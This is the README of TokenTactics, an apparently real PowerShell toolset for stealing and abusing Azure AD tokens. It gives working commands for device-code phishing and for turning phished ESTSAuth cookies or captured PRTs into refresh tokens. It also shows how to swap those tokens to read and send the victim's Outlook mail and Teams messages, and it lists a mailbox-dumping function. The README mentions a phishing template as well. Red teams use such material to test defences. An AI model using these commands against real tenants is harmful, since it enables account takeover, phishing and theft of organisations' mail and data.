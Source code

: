 # TokenTactics
Azure JSON Web Token ("JWT") Manipulation Toolset

Azure access tokens allow you to authenticate to certain endpoints as a user who signs in with a device code. Even if they used multi-factor authentication. Once you have a user's access token, it may be possible to access certain apps such as Outlook, SharePoint, OneDrive, MSTeams and more. 

For instance, if you have a Graph or MSGraph token, you can then connect to Azure and dump users, groups, etc. You could then, depending on conditional access policies, switch to an Azure Core Management token and run [AzureHound](https://github.com/BloodHoundAD/AzureHound). Then, switch to an Outlook token and read/send emails or MS Teams and read/send messages!

For more on Azure token types [Microsoft identity platform access tokens](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens)

There are some example requests to endpoints in the resources folder. There is also an example phishing template for device code phishing.

You may also use these tokens with [AAD Internals](https://o365blog.com/aadinternals/) as well. We strongly recommended to check this amazing tool out.

## Installation and Usage

```Import-Module .\TokenTactics.psd1```

```Get-Help Get-AzureToken```

```Invoke-RefreshToSubstrateToken```

### Generate Device Code

```Get-AzureToken -Client MSGraph```
Once the user has logged in, you'll be presented with the JWT and it will be saved in the $response variable. To access the access token use ```$response.access_token``` from your PowerShell window to display the token. You may also display the refresh token with ```$response.refresh_token```. Hint: You'll want the refresh token to keep refreshing to new access tokens! By default, Get-AzureToken results are logged to TokenLog.log.

#### DOD/Mil Device Code
```Get-AzureToken -Client DODMSGraph```

### Get a Refresh Token from ESTSAuth* Cookie 

```Get-AzureTokenFromESTSCookie -estsAuthCookie "0.AbcApTk..." ```

This module uses authorization code flow to obtain an access token and refresh token using ESTSAuth (or ESTSAuthPersistent) cookie. Useful if you have phished a session via Evilginx or have otherwise obtained this cookie. 

Be sure to use the right cookie! `ESTSAuthPersistent` is only useful when a CA policy actually grants a persistent session. Otherwise, you should use `ESTSAuth`. You can usually tell which one to use based on length, the longer cookie is the one you want to use :) 

*Note: This may not work in all cases as it may require user interaction. If this is the case, either use the Device Code flow above, or try `roadtx interactiveauth --estscookie`*

### Refresh or Switch Tokens

```Invoke-RefreshToOutlookToken -domain myclient.org -refreshToken 0.A```

```$OutlookToken.access_token```

### Connect
```Connect-AzureAD -AadAccessToken $response.access_token -AccountId user@myclient.org```

### Refresh a PRT

Once a PRT has been captured, auth with roadrecon to obtain your access_token and refresh_token. When refreshing with TokenTactics, use ClientID 1b730954-1685-4b74-9bfd-dac224a7b894.

```Invoke-RefreshToMSGraphToken -domain myclient.org -ClientId 1b730954-1685-4b74-9bfd-dac224a7b894 -refreshToken 0.A```

### Clear tokens
```Invoke-ClearToken -Token All```

### Commands
```powershell
Get-Command -Module TokenTactics

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Get-AzureToken                                     0.0.2      TokenTactics
Function        Get-AzureTokenFromESTSCookie                       0.0.2      TokenTactics
Function        Invoke-ClearToken                                  0.0.2      TokenTactics
Function        Invoke-DumpOWAMailboxViaMSGraphApi                 0.0.2      TokenTactics
Function        Invoke-ForgeUserAgent                              0.0.2      TokenTactics
Function        Invoke-OpenOWAMailboxInBrowser                     0.0.2      TokenTactics
Function        Invoke-ParseJWTtoken                               0.0.2      TokenTactics
Function        Invoke-RefreshToAzureCoreManagementToken           0.0.2      TokenTactics
Function        Invoke-RefreshToAzureManagementToken               0.0.2      TokenTactics
Function        Invoke-RefreshToDODMSGraphToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToGraphToken                         0.0.2      TokenTactics
Function        Invoke-RefreshToMAMToken                           0.0.2      TokenTactics
Function        Invoke-RefreshToMSGraphToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToMSManageToken                      0.0.2      TokenTactics
Function        Invoke-RefreshToMSTeamsToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeAppsToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeManagementToken              0.0.2      TokenTactics
Function        Invoke-RefreshToOutlookToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToSharepointOnlineToken              0.0.2      TokenTactics
Function        Invoke-RefreshToSubstrateToken                     0.0.2      TokenTactics
Function        Invoke-RefreshToYammerToken                        0.0.2      TokenTactics
```

## Authors and contributors
- [@0xBoku](https://github.com/boku7) co-author and researcher.

TokenTactic's methods are highly influenced by the great research of Dr Nestori Syynimaa at https://o365blog.com/.

